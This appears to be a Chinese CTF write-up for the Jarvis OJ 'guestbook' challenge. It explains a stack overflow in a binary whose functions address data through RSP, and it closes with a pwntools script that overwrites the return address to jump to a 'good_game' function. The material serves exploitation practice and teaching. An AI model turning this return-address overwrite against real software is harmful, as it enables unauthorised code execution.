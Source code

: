 ```yaml
---
title: guestbook
date: 2019=07-23
categories:
- javrisoj
tags: stack RSP
---
```


**<font style = 'font-size:25px'>RSP和返回地址的关系</font>**

# 漏洞

- 栈溢出

- 不同的是
    ![process](https://c-ssl.duitang.com/uploads/item/201907/23/20190723214542_AaQ2l.png)
    ![gdb](https://c-ssl.duitang.com/uploads/item/201907/23/20190723214542_4KViN.thumb.700_0.png)
    这里使用的是`RSP`指向位置的内容作为返回地址
# 原因

- 看他的汇编   
    ![armasm](https://c-ssl.duitang.com/uploads/item/201907/23/20190723215016_trrVX.thumb.700_0.png)   
    在`main`函数开始的时候，并没有像正常流程那样
    ```armasm
    push    rbp
    mov     rbp, rsp
    ```
    而且不止是main函数，所有二进制文件的函数都没有这一步。    
    这个题应该是所有数据都根据`RSP`寻址。

# exp

```python
from  pwn import * 

context.log_level = 'debug'
context.terminal = ['deepin-terminal','-x','sh','-c']

sh = process('./guestbook')
#sh = remote('pwn.jarvisoj.com', 9876)
elf = ELF('./guestbook')
addr = elf.symbols['good_game']

gdb.attach(sh)
payload = 'A' * 0x88  + p64(addr)
sh.sendlineafter('\n',payload)

sh.interactive()
sh.close()
```
